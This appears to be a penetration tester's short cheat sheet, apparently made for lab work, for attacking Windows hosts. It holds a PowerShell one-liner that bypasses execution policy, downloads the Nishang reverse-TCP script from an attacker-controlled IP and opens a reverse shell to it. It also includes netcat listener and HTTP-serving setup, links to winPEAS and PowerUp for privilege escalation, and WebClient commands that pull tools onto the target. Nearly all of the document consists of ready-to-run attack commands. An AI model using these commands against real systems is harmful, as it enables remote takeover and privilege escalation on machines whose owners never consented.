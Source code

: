 # reverses 

## windows ncat binary
https://github.com/andrew-d/static-binaries/raw/master/binaries/windows/x86/ncat.exe


## nishang reverse tcp binay
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

Use python2 -m SimpleHTTPServer 8888 : to serve
nc -lvp 4445 : listener

powershell.exe -nop -ep bypass -c "iex ((New-Object Net.WebClient).DownloadString('http://10.10.121.196:8888/Invoke-PowerShellTcp.ps1'));Invoke-PowerShellTcp -Reverse -IPAddress 10.10.121.196 -Port 4445"



# Privilege elevation

## winPea
https://github.com/carlospolop/PEASS-ng/releases/download/20221009/winPEASany.exe

## PowerUp 

https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
PS > . .\Powerup.ps1
PS > Invoke-Allchecks  



# Download file

(new-object System.Net.WebClient).DownloadFile('http://www.xyz.net/file.txt','C:\tmp\file.txt')
(new-object System.Net.WebClient).DownloadFile('http://10.10.121.196:8888/winPEASany.exe','C:\Users\bill\Desktop\winPEASany.exe')




